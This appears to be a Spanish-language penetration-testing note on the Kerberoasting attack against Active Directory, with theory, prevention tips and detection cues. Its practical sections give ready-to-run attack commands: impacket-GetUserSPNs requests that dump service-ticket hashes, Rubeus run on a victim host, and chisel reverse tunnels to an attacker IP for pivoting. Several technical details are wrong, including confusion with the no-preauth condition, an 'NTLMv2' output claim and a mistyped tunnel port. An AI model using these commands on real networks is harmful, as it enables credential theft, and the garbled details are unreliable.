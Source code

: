 -----
- Tags: #ataque #windows #basico #teoria #practica 
-----
# Kerberoasting 

El **Kerberoasting** attack es una técnica utilizada para extraer contraseñas de cuentas de usuarios en un dominio de Windows que utiliza el protocolo de autenticación de [[Kerberos]].

Kerberos permite a los usuarios autenticarse de forma segura en un dominio y recibir un "ticket" (TGS) que se puede utilizar para acceder a los recursos de la red. Los tickets de Kerberos están encriptados utilizando la clave de cifrado del servidor de dominio (NTLM). 

En este ataque, el atacante aprovecha una debilidad en el proceso de autenticación de Kerberos para extraer contraseñas en forma de "hashes" de los tickets de servicio. Los tickets de servicio son tickets utilizados por servicios de dominio para autenticarse en otros sistemas dentro de la red. Estos tickets contienen información cifrada, incluyendo el nombre de la cuenta de servicio y un hash de la contraseña de la cuenta. 

El atacante recopila los tickets de servicio de la red y luego los extrae para obtener los hashes de las contraseñas asociadas a las cuentas de servicio. Estos hashes pueden ser descifrados offline utilizando técnicas de cracking para obtener las contraseñas en texto plano. 

-----
# Explotación 

- **Identificación de usuarios con cuentas de servicio**: Para llevar a cabo un ataque de **Kerberoasting** es importante identificar cuentas de servicio en el dominio de Active Directory. Estas son cuentas de usuario especiales que se utilizan para ejecutar servicios en servidores y a menudo se configuran par aque puedan autenticarse en un dominio y solicitar TS (Ticket Service).

- **Solicitud de tíquets de serivicio**: Una vez que se identifican las cuentas de servicio, un atacante solicita tíckets de servicio para estas cuentas utilizando [[Kerberos]]. Estos tickets de servicio se cifran utilizando el hash **NTLM** de la contraseña del servicio.

- **Exfiltración de tickets cifrados**: Una vez que el atacante ha obtenido los tickets cifrados, estos se extraen del entorno de AD. El atacante puede realizar esto de manera discrea y sin despertar sospechas.

- **Ataque offile**: Una vez con los tickets cifrados en su posesión, el atacnte intenta descrifrar los hashes NTLM correspondientes a las contraseñas de los serivcios. Esto se hace de forma offline, lo que significa que el atacante puede probar diferentes contraseñas sin activar alarmas de seguridad en el entorno de AD.

- **Contraseñas débilles o vulnerables**: Si las contraseñas de los serivcios son débiles o vulnerables, el ataque **Kerberoasting** tendrá éxito y el atacante obtendrá las contraseañs reales en texto claro correspondinetes a las cuentas de servicio comprometidas.

-  **Uso de las contraseñas obtenidas**: Con las contraseñas de servicio en su poder, el atacnte puede utilizarlas para acceder a sistemas y servicios adeicionales en el entorno, lo que puede conducir a un mayor compromiso de la red. 
- 
-----
# PoC Remote

Para obtener SPNs (Service Principal Names), es decir, cuentas de servicio, podemos hacer uso de herramientas como **imapcket-GetUserSPNs**, perteneciente a la suite de impacket (Conjunto de herramientas desarrolladas en python para tareas relacionadas con la explotación y analisis de protocolos y servicios de Windows y redes). Por ejemplo, una vez que tengamos credenciales válidas (Las cuales podrían ser validadas con herramientas como **crackmapexec**), podríamos plantearnos realizar un **Kerberoasting attack**. 

```bash
impacket-GetUserSPNs {domain}/{username}:{password} -request

impacket-GetUserSPNs -request -dc-ip {dc_ip} {domain.full}/{username}:{password} -outputfile hashes.kerberos

impacket-GetUserSPNs -request -dc-ip {dc_ip} -hashes :{nt_hash} {domain}/{username} -outputfile hashes.kerberos
```
En caso de que haya algun usuario vulnerable el cual sea detectado con la herramienta **impacket-GetUserSPNs** podríamos utilizar el parametro **-request** para solicitar un **TGS** y así posteriormente intentar crackear este. 

Otro ejemplo, en caso de que tengamos un usuario que disponga de **UF_DONT_REQUEST_PREAUTH** podríamos hacer uso de otra version de impacket disponible en el respositorio de [ShutDown Impacket](https://github.com/ShutdownRepo/impacket.git), en donde podremos cambiarnos a la rama de **getuserspns-nopreauth** para hacer uso de la herramienta **GetUserSPNs** con la flag `-no-preauth`. 

```bash
GetUserSPNs.py {domain}/ -no-preauth "{user_with_UF_DONT_REQUEST_PERAUTH=true}" -usersfile {users.txt} -dc-ip {ip} -request
```
De esta manera, al ejecutar el anterior comando estaremos intentando solicitar un **TGS** para todas los usuarios almacenados, aunque solo tendremos éxito en este ataque, es decir, recibir el TGS con el hash NTLM en su interior si el usuario es kerberoasteable (Que las credenciales están configuradas de manera que se almacenan).

----
# PoC Local

En algunos casos, puede ser que nos enfrentemos a escenarios en donde no podemos llevar a cabo un **Kerberoasting Attack** por configuraciones, falta de exposición de kerberos, errores, etc. pero es importante tener en cuenta probar esto una vez que accedamos al sistema como algún usuario, en ese caso podemos hacer uso de herramientas como [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) para efectuar el mismo. (Podemos encontrar el binario compilado en el [repositorio de ghostpack](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)).

Una vez descargado y transferido a la máquina víctima, podemos hacer uso de este para efectuar un Kerberoasting Attack:

```Powershell
> .\Rubeus.exe kerberoast /creduser:{domain}\{user} /credpassword:{password}
```

En caso de que existiesen usuarios con la configuración **UF_DONT_REQUEST_PREAUTH** su hash NTLMv2 será devuelto en el output, dandonos así la pauta de que este ataque fue ejecutado de manera correcta puediendo así intentear crackear el/los mismo/s de manera offline. 
###### Importante

Es importante tener en cuenta que así como puede ser que el kerberoastin attack sea llevado a cabo únicamente de manera remota por diversos motivos, en caso de que tengamos acceso al sistema y sea por la falta de exposición del protocolo kerberos, estando este accesible desde la máquina de manera local pero no de manera remota, además de hacer uso de rubeus también podríamos hacer uso de conceptos de [[Pivoting]].

Por ejemplo, cuando usamos el sigueinte comando obtenemos los *usuarios kerberoasteables*:

```bash
impacket-GetUserSPNs {domain}\{user}:{password}
```

Pero al momento de agregarle la flag `-request` obtenemos un error debido a que [[Kerberos]] no se encuentra expuesto. Es importante tener en cuenta que esto es posible ya que no es hasta que ingresamos esta flag que autenticamos contra kerberos, por detras, *impacket-GetUserSPNs* lo que hace es establecer una conexión con el DC utilizando Kerberos o NTLM y luego solicita la información sobre los Service Principal Names.

Retomando con el [[Pivoting]], sabemos que tenemos que hacer uso de [Chisel](https://github.com/jpillora/chisel) para poder crear un **cliente-servidor**, pero lo que debemos tener en cuenta que es que además del puerto **88** (Kerberos), deberíamos traernos el puerto **389** (Ldap).

Máquina atacante:
```Bash
./chisel server --reverse 1234
```

Máquina víctima:
```bash
./chisel client {Attacker_IP}:1234 R:88:127.0.0.1:88 R:289:127.0.0.1:389
```

Una vez generado el servidor y conectado al mismo portforwardeando el puerto de Kerberos y Ldap, podemos intentar realizar un Kerberoasting attack teniendo en cuenta que el mismo deberá ser apuntado contra nuestro localhost debido a que ahora en nuestra máquina atacante por el puerto 88 y 389 en realidad tenemos el puerto 88 y 389 de la máquina víctima.

```bash
impacket-GetUserSPNs {domain}/{user}:{password} -request -dc-ip 127.0.0.1
```

En caso de que haya usuarios con la configuración **UF_DONT_REQUEST_PREAUTH**, una vez más, será completado de manera exitosa este ataque.

-----
# Prevenir Kerberoasting Attack ( #blueteam )

- **Uso de contraseñas fuertes**: La primera línea de defensa es asegurarse de que todas las cuetnas de servicio tengan contraseñas fuertes y únicas. Esto hace que sea mucho más difícil para los atacantes realizar este ataque, ya que la contraseña es más difícil de descifrar.
- **Uso de contraseñas gestionadas**: En lugar de permitir que los administradores configuren manulamente contraseñas para cuentas de servicio, considere el uso de soluciones de gestión de contraseñase que generen y almacenen contraseñas de manera segura.
- **Rotación regular de contraseñas**: Implementar políticas de rotración de contraseñas para ceuntas de servicio. Cuanto más a menudo cambie las contraseñas, menor será el tiempo que un atacante potencial tendría para realizar este ataque.
- **Monitoreo ode actividad anómala**: Establecer sistemas de monitoreo y alerta que puedan detectar actividades inusuales en el AD, como intentos repetidos de acceso a ceutnas de servicio o acceso no autorizado a los registros de eventos de [[Kerberos]].
- **Uso de soluciones de seguridad avanzadas**: Considerara la implementación de soluciones de seguiridad avanzada que puedan detectar y prevenir este ataque mediante la detección de patrones de comportamiento inusuales o el monitoreo en tiempo real de la autenticación de [[Kerberos]].
- **Implementacipón de políticas de seguridad adecuadas**: Asegurarsse de que la organización tenga políticas de segurida bien definidas y qeu se sigan de manera consistente. Esto incluye el acceso a cuetnas de servicio y el uso de cuentas con privilegios elevados.
# Detección
Para detectar un **Kerberoasting Attack** puede ser muy útil generar detecciones a raiz de los siguientes puntos a tener en cuenta.

- **1)** Se solicitan **TGS** con **cifrado RC4**.
- **2)** Evento **4769** en el Domain Controller (Filtrando por tickets con tipo de encriptado **0x17**, cuentas de servicio conocidas y computadoras)